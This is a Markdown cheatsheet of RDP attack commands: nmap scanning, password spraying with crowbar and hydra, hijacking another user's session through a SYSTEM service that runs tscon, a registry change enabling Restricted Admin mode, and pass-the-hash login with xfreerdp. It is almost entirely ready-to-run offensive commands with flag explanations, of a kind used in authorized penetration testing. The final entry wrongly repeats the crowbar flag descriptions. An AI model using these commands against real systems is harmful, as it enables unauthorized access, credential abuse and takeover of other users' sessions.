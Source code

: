 # RDP Enumeration Cheatsheet

Enumerating RDP (port 3389) service.

## 1. Enumerate RDP Service (nmap)
Scan for RDP service on the default port.
```bash
nmap -Pn -p3389 target.com
```
- `-Pn`: Skips host discovery.
- `-p3389`: Targets RDP default port (TCP/3389).

## 2. RDP Password Spraying (crowbar)
Test a single password against a list of usernames.
```bash
crowbar -b rdp -s target.com/32 -U users.txt -c 'password123'
```
- `-b rdp`: Targets RDP protocol.
- `-s target.com/32`: Target IP or range.
- `-U users.txt`: File with usernames.
- `-c 'password123'`: Password to test.

## 3. RDP Password Spraying (hydra)
Perform password spraying against RDP with a username list.
```bash
hydra -L usernames.txt -p 'password123' target.com rdp
```
- `-L usernames.txt`: File with usernames.
- `-p 'password123'`: Password to test.
- `rdp`: Targets RDP protocol.

## 4. RDP Login (rdesktop)
Connect to RDP server with valid credentials.
```bash
rdesktop -u user -p 'password' target.com
```
- `-u user`: Specify username.
- `-p 'password'`: Specify password.
- `target.com`: Target IP or hostname.

## 5. Query User Sessions (Windows)
List active RDP sessions on a Windows system.
```cmd
query user
```
- Displays usernames, session names, IDs, and states.

## 6. Create Service for SYSTEM Privileges (Windows)
Create a Windows service to run a command as SYSTEM.
```cmd
sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"
```
- `sessionhijack`: Service name.
- `binpath=`: Command to execute (e.g., hijack session ID 2).

## 7. Start Service for RDP Session Hijack (Windows)
Start the created service to hijack an RDP session.
```cmd
net start sessionhijack
```
- `sessionhijack`: Name of the service to start.

## 8. Hijack RDP Session (Windows)
Connect to another user’s RDP session with SYSTEM privileges.
```cmd
tscon 2 /dest:rdp-tcp#13
```
- `2`: Target session ID to hijack.
- `/dest:rdp-tcp#13`: Destination session name.

## 9. Enable Restricted Admin Mode (Windows)
Add registry key to allow RDP Pass-the-Hash.
```cmd
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```
- `HKLM\...`: Registry path.
- `/t REG_DWORD`: Registry value type.
- `/v DisableRestrictedAdmin`: Key name.
- `/d 0x0`: Value to enable mode.

## 10. RDP Pass-the-Hash (xfreerdp)
Use NTLM hash to connect via RDP.
```bash
xfreerdp /v:target.com /u:user /pth:300FF5E89EF33F83A8146C10F5AB9BB9
```
- `/v:target.com`: Target IP or hostname.
- `/u:user`: Username.
- `/pth:300FF5E89EF33F83A8146C10F5AB9BB9`: NTLM hash.
- `-b rdp`: Targets RDP protocol.
- `-s target.com/32`: Target IP or range.
- `-U users.txt`: File with usernames.
- `-c 'password123'`: Password to test.